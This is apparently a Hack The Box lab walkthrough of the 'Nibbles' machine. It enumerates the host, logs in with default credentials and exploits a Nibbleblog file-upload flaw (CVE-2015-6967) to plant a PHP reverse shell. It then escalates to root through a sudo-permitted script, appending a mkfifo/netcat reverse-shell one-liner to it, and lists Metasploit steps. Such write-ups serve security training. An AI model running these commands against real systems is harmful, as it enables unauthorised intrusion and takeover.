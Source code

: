 ```yaml
---
title: Nibbles - A HackTheBox machine 
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - walkthrough
  - reverse shell
  - CVE-2015-6967
---
```


# Nibbles - A Hack The Box machine


```shell-session
nmap -sC -sV -Pn 10.129.96.84 
```


Results:

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4f8ade8f80477decf150d630a187e49 (RSA)
|   256 228fb197bf0f1708fc7e2c8fe9773a48 (ECDSA)
|_  256 e6ac27a3b5a9f1123c34a55d5beb3de9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Visiting the IP:80 in the browser and reviewing source code there is a comment:

```
<!-- /nibbleblog/ directory. Nothing interesting here! -->
```

So, we have a website at http://10.129.96.84/nibbleblog/

Dirb enumeration reveals an login panel: 

```shell-session
dirb http://10.129.96.84/nibbleblog/ /usr/share/wordlists/dirb/common.txt
```

Login panel: http://10.129.96.84/nibbleblog/admin.php

Too many login attempts too quickly trigger a lockout with the message "Nibbleblog security error - Blacklist protection".

Also, it reveals some directories that are listable. Browsing around we get to this file: http://10.129.96.84/nibbleblog/content/private/users.xml where user "admin" is exposed.

Also CMS version is disclosed in http://10.129.96.84/nibbleblog/README:

```
====== Nibbleblog ======
Version: v4.0.3
Codename: Coffee
Release date: 2014-04-01
```

A quick search for that version brings up this vulnerability:

https://github.com/dix0nym/CVE-2015-6967/blob/main/README.md

In the usage example we can read:

```
python3 exploit.py --url http://10.10.10.75/nibbleblog/ --username admin --password nibbles --payload shell.php
```

Default credentials are: 

```
admin:nibbles
```

Also, reading the code of the exploit, we can see that the triggered endpoint for this CVE-2015-6967 is:

```
uploadURL = f"{nibbleURL}admin.php?controller=plugins&action=config&plugin=my_image"
```

Knowing this, we can login into the panel http://10.129.96.84/nibbleblog/admin.php and go to Plugins>My Image> Configure.

In the browser, upload a file. In my case, I uploaded my [pentesmonkey](pentesmonkey.md).

Now, we need to find where this file has been saved to. After browsing around, I ended up in http://10.129.96.84/nibbleblog/content/private/plugins/my_image/

There there was a file called image.php. Before clicking on it, we open in our attacker machine a netcat listener:

```shell-session
nc -lnvp 1234
```

Click on the file image.php listed in http://10.129.96.84/nibbleblog/content/private/plugins/my_image/ and you will have a reverse shell.

Cat user.txt (under /home/nibbler).

### Privilege escalation

```shell-session
sudo -l
```

Results:

```
$ sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

At /home/nibbler, unzip the file personal.zip. Now you can even replace monitor.sh for a different monitor.sh.
Mine has:

```
/bin/bash
```

Now run:

```shell-session
sudo -u root .home/nibbler/personal/stuff/monitor.sh
```

And you are root. Remember to do a chmod if needed.


## Some input from HTB walkthrough

You can run nmap script for nibbles service:

```shell-session
nmap -sC -p 22,80 -oA nibbles_script_scan 10.129.42.190
```


For privilege escalation:

```shell-session
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 8443 >/tmp/f' | tee -a monitor.sh
```


Alternative way: 

```msf6-session
msf6 > search nibbleblog

msf6 > use exploit/multi/http/nibbleblog_file_upload

msf6 exploit(multi/http/nibbleblog_file_upload) > set rhosts 10.129.42.190
rhosts => 10.129.42.190
msf6 exploit(multi/http/nibbleblog_file_upload) > set lhost 10.10.14.2 
lhost => 10.10.14.2
```

We need to set the admin username and password admin:nibbles and the TARGETURI to nibbleblog.
